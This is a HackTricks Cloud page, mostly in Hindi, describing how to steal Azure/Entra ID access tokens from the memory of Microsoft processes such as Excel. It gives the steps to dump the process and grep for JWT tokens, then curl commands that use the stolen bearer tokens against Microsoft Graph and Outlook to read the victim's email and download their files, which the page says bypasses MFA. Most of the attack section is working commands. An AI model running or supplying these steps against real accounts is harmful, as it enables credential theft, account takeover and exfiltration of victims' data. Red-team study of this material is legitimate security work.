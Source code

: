 # Az - Processes Memory Access Token

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basic Information**

जैसा कि [**इस वीडियो**](https://www.youtube.com/watch?v=OHKZkXC4Duw) में समझाया गया है, कुछ Microsoft सॉफ़्टवेयर जो क्लाउड के साथ समन्वयित होते हैं (Excel, Teams...) **स्मृति में स्पष्ट-टेक्स्ट में एक्सेस टोकन स्टोर कर सकते हैं**। इसलिए केवल प्रक्रिया की **स्मृति** को **डंप** करना और **JWT टोकन के लिए grep करना** आपको क्लाउड में पीड़ित के कई संसाधनों तक पहुंच प्रदान कर सकता है, MFA को बायपास करते हुए।

चरण:

1. अपने पसंदीदा उपकरण के साथ EntraID उपयोगकर्ता के साथ समन्वयित एक्सेल प्रक्रियाओं को डंप करें।
2. चलाएँ: `string excel.dmp | grep 'eyJ0'` और आउटपुट में कई टोकन खोजें
3. उन टोकनों को खोजें जो आपको सबसे अधिक रुचिकर हैं और उनके ऊपर उपकरण चलाएँ:

{% code overflow="wrap" %}
```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
┌──(magichk㉿black-pearl)-[~]
└─$ curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```
{% endcode %}

**ध्यान दें कि इस प्रकार के एक्सेस टोकन अन्य प्रक्रियाओं के अंदर भी पाए जा सकते हैं।**

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
